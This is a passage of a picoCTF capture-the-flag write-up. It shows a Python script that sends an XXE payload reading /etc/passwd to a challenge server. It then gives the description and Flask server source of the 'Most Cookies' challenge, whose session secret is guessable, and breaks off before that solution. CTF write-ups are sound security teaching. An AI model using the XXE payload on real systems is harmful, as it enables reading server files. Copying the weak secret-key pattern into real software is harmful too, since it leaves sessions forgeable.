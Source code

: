 ```javascript
                : "Could not find the details. Better luck next time :("
            )
            .then(res => document.getElementById("detailsResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```

We just need to make POST request to the `http://saturn.picoctf.net:64810/data` with XML payload to get the flag:

```python
import requests

port = "64810"

headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'keep-alive',
}

data = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE data [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]><data><ID>&file;</ID></data>'

response = requests.post(f"http://saturn.picoctf.net:{port}/data", headers=headers, data=data, verify=False)

print(response)
```

## Most Cookies (150 points)

**Description**: Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/) [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py):

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

```